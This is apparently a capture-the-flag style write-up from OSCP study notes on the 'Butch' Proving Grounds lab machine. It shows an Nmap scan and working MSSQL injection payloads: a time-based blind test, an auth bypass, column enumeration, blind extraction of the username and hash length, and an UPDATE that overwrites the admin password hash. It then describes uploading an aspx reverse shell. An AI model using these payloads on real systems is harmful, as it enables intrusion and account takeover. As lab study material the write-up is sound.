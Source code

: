 #### Mind map

![Butch](https://user-images.githubusercontent.com/8998412/158007932-e61409eb-080e-48b8-b874-5d395cd7d659.png)

#### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 04:50:54 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/xml/_full_tcp_nmap.xml 192.168.184.63
Nmap scan report for 192.168.184.63
Host is up, received user-set (0.30s latency).
Scanned at 2022-02-27 04:50:54 EST for 477s
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
25/tcp   open  smtp          syn-ack ttl 127 Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.184], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
450/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=621B4B5B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-27T09:58:14
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51234/tcp): CLEAN (Timeout)
|   Check 2 (port 45630/tcp): CLEAN (Timeout)
|   Check 3 (port 37138/udp): CLEAN (Timeout)
|   Check 4 (port 14133/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   295.76 ms 192.168.49.1
2   295.78 ms 192.168.184.63

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 04:58:51 2022 -- 1 IP address (1 host up) scanned in 477.73 seconds

```

I find the website that runs on port 450 has SQL injection vulnerability by using the waiting test.

```SQL
'; WAITFOR DELAY '00:00:10'; --
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h14m52s_001.png)

Attempts to log in using the usernames ```admin``` and ```administrator``` failed.

```SQL
' or 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h21m20s_002.png)

Because we can't use automatic exploitation tools in the exam, I start doing it manually.

First, we must know the name of the field.

```SQL
' HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h34m35s_003.png)

```SQL
' GROUP BY users.username HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h37m46s_004.png)

```SQL
' GROUP BY users.username, users.password_hash HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h38m52s_005.png)

Now we know that the data table users has two fields username and password_hash.

Check how many data are in the data table users. We can see from the query below that there is only one data.

```SQL
'; IF (SELECT COUNT(*) FROM users) = 1 WAITFOR DELAY '00:00:05'; --
```
Finding the username ```butch```.

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 97) WAITFOR DELAY '00:00:05'; --
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 98) WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Guessing the length of the password by the command below.

```SQL
'; IF (SELECT LEN(password_hash) FROM users) > 10 WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Finally, we know that the password length is 64, so it may have been hashed. Because of the length of the password so I guessed that may use SHA-256 hash. (Because manually to guess all the passwords too slow and may not be able to restore the original password we try to update directly.)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h05m30s_006.png)

Now we update the new password ```123456```.

```SQL
-- 123456
'; UPDATE users SET password_hash = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WHERE user = 'butch'; -- 
-- check if update is successful
'; IF (SELECT password_hash FROM users WHERE user = 'butch') = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WAITFOR DELAY '00:00:05'; -- 
```

Login with username ```butch``` and password ```123456```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h18m08s_007.png)

This page looks like an upload page written in aspx, we try to use the bypass technique here to see if we can upload the reverse shell page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h28m52s_008.png)

Prepare a reverse shell page. I add the output string to see if it can be executed properly.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h31m32s_009.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h32m03s_010.png)

Uploading the page file and starting a listener at port 450.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h34m18s_011.png)

Browsing to url ```http://192.168.202.63:450/shell.aspx```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h35m10s_012.png)

We get the shell.
 
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h37m10s_013.png)
 
#### Privilege escalation

Because we already have ```nt authority\system``` privilege, we don't need to escalate.
 
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h37m10s_013.png)
